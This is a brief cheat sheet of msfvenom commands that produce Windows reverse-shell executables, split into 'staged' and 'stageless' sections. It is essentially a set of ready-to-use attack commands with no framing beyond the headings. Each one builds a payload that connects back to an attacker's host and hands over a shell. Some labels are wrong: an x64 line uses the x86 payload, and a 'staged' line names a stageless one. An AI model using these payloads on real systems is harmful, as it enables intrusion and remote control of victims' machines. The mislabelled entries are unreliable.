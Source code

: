 # Staged Payloads for Windows

```bash

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

```

# Stageless Payloads for Windows


```bash

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe



	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
  ```

